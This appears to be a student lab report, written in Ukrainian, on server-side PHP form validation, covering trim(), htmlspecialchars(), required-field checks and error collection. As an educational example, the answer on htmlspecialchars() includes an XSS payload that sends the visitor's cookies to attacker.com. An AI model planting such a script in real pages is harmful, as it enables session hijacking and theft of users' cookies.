

# Звіт до Лабораторної роботи №7

## 1. Блок коду валідації (PHP)
```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $title = htmlspecialchars(trim($_POST['title'] ?? ''));
    $description = htmlspecialchars(trim($_POST['description'] ?? ''));

    if (empty($title)) {
        $errors[] = "Поле Назва є обов'язковим для заповнення!";
    }
    if (empty($description)) {
        $errors[] = "Поле Опис є обов'язковим для заповнення!";
    }
}
```


## Відповіді на контрольні запитання
1) Принципова різниця між валідацією на фронтенді та бекенді:

Фронтенд-валідація потрібна для миттєвого зворотного зв'язку та зручності користувача (UX).
Серверна (бекенд) валідація відповідає за безпеку та цілісність даних, оскільки клієнтський код можна легко змінити або обійти.

2) Чому серверна валідація критично необхідна і хто може обійти HTML required:
Будь-який користувач може обійти required, видаливши атрибут через DevTools (F12) у браузері, вимкнувши JavaScript або відправивши прямий POST-запит через інструменти на кшталт Postman чи curl. Сервер повинен перевіряти дані незалежно від клієнта.
3) Що робить trim() та яку проблему вирішує:

Видаляє пробіли (та інші службові символи) з початку та кінця рядка. Запобігає обходу обов'язкових полів введенням лише пробілів, а також вирішує проблему випадкових пробілів під час введення логіна чи пароля.
4) Від чого захищає htmlspecialchars():

Захищає від XSS-атак (Cross-Site Scripting), перетворюючи спеціальні символи (наприклад, <, >, ", ') на безпечні HTML-сутності (&lt;, &gt;).

Приклад "поганого" тексту: <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>

5) Що таке Error Bag i чому краще збирати всі помилки:
Error Bag — це масив для накопичення всіх помилок, виявлених під час перевірки форми.

Збирання всіх помилок дозволяє вивести їх користувачеві одночасно за один крок. Використання die() або exit() при першій же помилці перериває виконання скрипта і змушує користувача виправляти помилки по одній, що значно погіршує UX.
